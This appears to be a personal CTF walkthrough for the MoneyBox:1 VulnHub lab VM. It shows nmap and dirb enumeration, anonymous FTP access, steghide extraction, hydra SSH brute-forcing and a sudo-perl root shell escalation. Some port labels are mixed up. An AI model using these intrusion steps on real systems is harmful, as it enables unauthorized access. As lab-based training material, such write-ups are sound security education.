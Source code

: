 ```yaml
---
title: MONEYBOX-1 VULNHUB WALKTHROUGH
date: 2023-10-16 03:15:00 +0300
categories: [WALKTHROUGH, VULNHUB]
tags: [MoneyBox:1, ctf, boot2root]
toc: true
---
```


## INTRODUCTION
In this post, I'll walk you through how I completed the MoneyBox:1 vulnhub machine, happy hacking!
## SETTING UP
Download the vulnerable machine from <https://www.vulnhub.com/entry/moneybox-1,653/> and set up in a virtual environment, preferably Virtualbox.
## FINDING OPEN PORTS & SERVICES
A quick nmap scan reveals three services running on the machine.
```bash
[0t@kali ~]$ nmap 192.168.56.3
Nmap scan report for 192.168.56.3
Host is up (0.00077s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE   SERVICE
21/tcp  open    ssh
22/tcp  open    ssh
80/tcp  open    http
```
### 80/tcp HTTP
The site doesn't reveal much at first glance.
![Desktop View](https://entyllom.sirv.com/Images/web.png){: width="972" height="589" }
_Website home page_

The next step is to find hidden directories on the site using dirb.
```bash
[0t@kali ~]$ dirb http://192.168.56.3

 ----------------
 DIRB v2.22
 By The Dark Raver
 ----------------

 START_TIME: Sun Oct 15 08:42:23 2023
 URL_BASE: http://192.168.56.3/
 WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

 ----------------

 GENERATED WORDS: 4612

 ---- Scanning URL: http://192.168.56.3/ ----
 ==> DIRECTORY: http://192.168.56.3/blogs/
 + http://192.168.56.3/index.html (CODE:200|SIZE:621)
 + http://192.168.56.3/server-status (CODE:403|SIZE:277)

 ---- Entering directory: http://192.168.56.3/blogs/ ----
 + http://192.168.56.3/blogs/index.html (CODE:200|SIZE:353)

 ---------------
 END_TIME: Sun Oct 15 08:42:26 2023
 DOWNLOADED: 9224 - FOUND: 3
```

From the result, there's a hidden directory: /blogs

Finally, a hint;
![Desktop View](https://entyllom.sirv.com/Images/dirbscanresult.jpg){: width="972" height="589" }
_Hint on 192.168.56.3/blogs/ source code_

Following the hints and inspecting the source code leads to a Secret Key which might be useful...
![Desktop View](https://entyllom.sirv.com/Images/hintresult.jpg){: width="972" height="589" }
_Hint on 192.168.56.3/S3cr3t-T3xt/ source code_

### 21/tcp FTP
Next, I tried connecting to the FTP Server using the default FTP anonymous login
```
Username: anonymous
Password: <leave blank>
```
Login to FTP using the above credentials
```bash
[0t@kali ~]$ ftp 192.168.56.3
Connected to 192.168.56.3.
220 (vsFTPd 3.0.3)
Name (192.168.56.3:0t): anonymous
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Surprisingly, I'm in!
The ftp server has an image file `/trytofind.jpg`{: .filepath}. Next, extracting hidden data from the image using steghide gives us another file `/data.txt`{: .filepath}.
##
The password for extraction is the Secret Key found on the sites /S3cr3t-T3xt/ source code.

```bash
[0t@kali ~]$ steghide extract -sf trytofind.jpg
Enter passphrase:
wrote extracted data to "data.txt"
```

```text
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
                  
```
{: file='/data.txt'}

### 21/tcp SSH
Since I already found a user `renu`, I decided to bruteforce the ssh login password using hydra.

![Desktop View](https://entyllom.sirv.com/Images/sshlogin1.png){: width="972" height="589" }
#### The 1st flag
![Desktop View](https://entyllom.sirv.com/Images/flag1.png){: width="972" height="589" }

#### The 2nd flag
Trying to find what else could be on renu's account leads to a 2nd flag.
![Desktop View](https://entyllom.sirv.com/Images/flag2.png){: width="972" height="589" }


Having found a second user `lily`, trying to ssh into their account is the first thing that comes to mind. The ssh login doesn't require a password because it uses an encryption key.
## PRIVILEGE ESCALATION
Running `sudo -l` shows that the user `lily` can run `/usr/bin/perl` with root permission.
`/usr/bin/perl` is a path to a perl compiler which can be used for privilege escalation using a perl script `sudo /usr/bin/perl -e 'exec "/bin/bash"'`
![Desktop View](https://entyllom.sirv.com/Images/root.png){: width="972" height="589" }


The lab requires 3 flags to complete, so one more to finish.

I used `find / -type f -name '*.txt'` to get all text files in the computer instead of moving one directory at a time looking for the final flag.
![Desktop View](https://entyllom.sirv.com/Images/roottxt.jpg){: width="972" height="589" }
### The 3rd flag
The final flag is in `/root/.root.txt`{: .filepath} which is a hidden file.

`cat /root/.root.txt`{: .filepath} to get the last flag.

![Desktop View](https://entyllom.sirv.com/Images/flag3.png){: width="972" height="589" }

COMPLETED!